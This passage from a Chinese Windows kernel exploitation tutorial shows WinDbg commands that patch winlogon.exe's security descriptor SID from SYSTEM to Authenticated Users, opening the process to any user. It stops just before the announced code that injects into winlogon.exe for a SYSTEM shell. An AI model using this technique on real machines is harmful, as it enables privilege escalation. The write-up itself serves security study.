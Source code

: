 ```assembly
0: kd> dt _sid
nt!_SID
   +0x000 Revision         : UChar
   +0x001 SubAuthorityCount : UChar
   +0x002 IdentifierAuthority : _SID_IDENTIFIER_AUTHORITY
   +0x008 SubAuthority     : [1] Uint4B
0: kd> dt _sid  0xffff9008`464082a0 + 0x40
nt!_SID
   +0x000 Revision         : 0x1 ''
   +0x001 SubAuthorityCount : 0x1 ''
   +0x002 IdentifierAuthority : _SID_IDENTIFIER_AUTHORITY
   +0x008 SubAuthority     : [1] 0x12
```

对应的值刚好就是`1-5-18`，将其修改为`1-5-11`：

```assembly
0: kd> db 0xffff9008`464082a0 + 0x48 L1 
ffff9008`464082e8  12                                               .
0: kd> eb 0xffff9008`464082a0 + 0x48 b  
```

接下里使用查看一下此进程的权限：

```assembly
0: kd> !sd 0xffff9008`464082a0 
->Revision: 0x1
->Sbz1    : 0x0
->Control : 0x8814
            SE_DACL_PRESENT
            SE_SACL_PRESENT
            SE_SACL_AUTO_INHERITED
            SE_SELF_RELATIVE
->Owner   : S-1-5-32-544
->Group   : S-1-5-18
->Dacl    : 
->Dacl    : ->AclRevision: 0x2
->Dacl    : ->Sbz1       : 0x0
->Dacl    : ->AclSize    : 0x3c
->Dacl    : ->AceCount   : 0x2
->Dacl    : ->Sbz2       : 0x0
->Dacl    : ->Ace[0]: ->AceType: ACCESS_ALLOWED_ACE_TYPE
->Dacl    : ->Ace[0]: ->AceFlags: 0x0
->Dacl    : ->Ace[0]: ->AceSize: 0x14
->Dacl    : ->Ace[0]: ->Mask : 0x001fffff
->Dacl    : ->Ace[0]: ->SID: S-1-5-11
```

修改成功了，当前的winlogon.exe已经可以被任意进程访问了。

### 注入验证

接下来就要尝试注入`winlogon.exe`,弹出system权限的shell。写如下代码：
